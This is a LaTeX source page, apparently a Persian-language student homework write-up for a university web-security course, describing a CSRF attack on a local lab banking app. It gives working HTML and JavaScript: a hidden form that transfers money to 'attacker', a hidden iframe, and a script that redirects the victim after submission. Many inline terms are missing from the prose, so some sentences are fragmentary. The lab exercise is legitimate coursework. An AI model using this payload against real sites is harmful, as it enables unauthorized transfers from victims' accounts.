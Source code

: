 \documentclass[]{article}
\begin{document}
\section*{قسمت دوم}
در ابتدا یک
در صفحه‌ی
تعریف می‌کنیم به طوری که دقیقا پارامتر‌های فرم انتقال پول در سایت اصلی را داشته باشد و
آن دقیقا آدرس خود وبسایت باشد. همچنین تمامی فیلد‌ها را پنهان می‌کنیم. فعلا فرم به صورت زیر است:
\begin{latin}
\begin{lstlisting}[language=html]
<form name="transfer_form" action="http://localhost:3000/post_transfer" method="post">
    <input hidden="true" type="text" name="destination_username" value="attacker">
    <input hidden="true" type="text" name="quantity" value="10">
</form>
\end{lstlisting}
\end{latin}
اما مشکلی که در حال حاضر وجود دارد این است که در صورتی که فرم را سابمیت بکنیم خود صفحه‌ی
مرورگر به همان سایت
می‌رود. برای حل کردن این مشکل با توجه به
یک
تعریف می‌کنیم و
فرم را همان
قرار می‌دهیم به صورتی که انگار در همان
درخواست فرستاده می‌شود. همچنین
را نیز پنهان می‌کنیم طوری که کاربر آن‌را نبیند. کد در حال حاضر به صورت زیر است:
\begin{latin}
\begin{lstlisting}[language=html]
<form target="transfer_frame" name="transfer_form" action="http://localhost:3000/post_transfer" method="post">
    <input hidden="true" type="text" name="destination_username" value="attacker">
    <input hidden="true" type="text" name="quantity" value="10">
</form>
<iframe hidden="true" name="transfer_frame"></iframe>
\end{lstlisting}
\end{latin}
در نهایت نیز باید به صورتی تشخیص دهیم که کی فرم سابمیت می‌شود. برای این کار من راه خوبی پیدا نکردم.
یکی از کار‌هایی که به ذهنم رسید این بود که چک کنم چند بار
لود شده است. بار اولی که صفحه باز می‌شود قبل از فرستادن فرم یک بار لود می‌شود و بار دیگر بعد از ارسال فرم.
پس به کمک کد
زیر می‌توان این کار را چک کرد:
\begin{latin}
\begin{lstlisting}[language=html]
<script>
    var times_loaded = 0;
    function iframe_loaded() {
        times_loaded++;
        if (times_loaded == 2)
            window.location.replace("https://sharif.edu/~kharrazi/courses/40441-011/");
    }
</script>
<iframe hidden="true" name="transfer_frame" onload="iframe_loaded()"></iframe>
\end{lstlisting}
\end{latin}
همچنین همان طور که در تمرین اسنتفورد گفته شده بود باید برخی از تنظیمات
را عوض می‌کردیم.
\end{document}
